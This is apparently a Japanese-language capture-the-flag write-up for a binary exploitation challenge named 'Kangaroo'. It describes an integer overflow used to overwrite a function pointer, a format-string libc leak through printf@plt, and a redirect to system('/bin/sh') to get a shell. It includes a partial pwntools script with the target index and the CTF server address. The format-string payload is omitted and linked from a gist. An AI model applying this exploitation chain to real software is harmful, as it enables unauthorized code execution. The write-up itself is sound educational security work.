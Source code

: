 
## Kangaroo
<secondary-label ref="user"/>
<secondary-label ref="rce"/>

自明なInteger Overflowがあります.計算したところ
```Py
-256204778801521543
```
のインデックスでoffsetが520になりました.よって`g_message`後方の関数ポインタが書き換えられます.

win関数は与えられていないためlibc leakをしなければシェルは取れません.
関数ポインタを`printf@plt`に書き換えformat string bugを引き起こしlibc leakしました.

libc leakからsystemのアドレスを関数ポインタに入れ,`g_messages`に`/bin/sh\0`を入れてから関数ポインタを呼び出しシェルを取りました :happy:

Writersideがエラーを出力するのでfsbペイロードを記事のexploitから削除しました.
完全なexploitはgistから入手してください.

[](https://gist.github.com/Yayoi-cs/94d97f8c1dca4f68177f6b0ec34620c0)

```py
from pwn import *
import sys

e = ELF("kangaroo_patched",checksec=False)
libc = ELF("libc.so.6",checksec=False)
ld = ELF("ld-linux-x86-64.so.2",checksec=False)

nc = "nc 34.170.146.252 54223"
HOST = nc.split(" ")[1]
PORT = int(nc.split(" ")[2])

dbg = 1
g_script = """
    set max-visualize-chunk-size 0x300
"""

context.binary = e
if len(sys.argv) > 1:
    io = remote(host=HOST,port=PORT)
else:
    io = e.process()
    if dbg:
        gdb.attach(io,g_script)

s   = lambda b: io.send(b)
sa  = lambda a,b: io.sendafter(a,b)
sl  = lambda b: io.sendline(b)
sla = lambda a,b: io.sendlineafter(a,b)
r   = lambda : io.recv()
ru  = lambda b:io.recvuntil(b)
rl  = lambda : io.recvline()
pu32= lambda b : u32(b.ljust(4,b"\0"))
pu64= lambda b : u64(b.ljust(8,b"\0"))
hlog= lambda i : print(f"[*]{hex(i)}")
shell = lambda : io.interactive()
payload = b""
def pay64(adr:int):global payload;payload = p64(adr)
def add64(adr:int):global payload;payload+= p64(adr)
def paybyte(data:bytes):global payload;payload = data
def addbyte(data:bytes):global payload;payload+= data


idx = -256204778801521543

```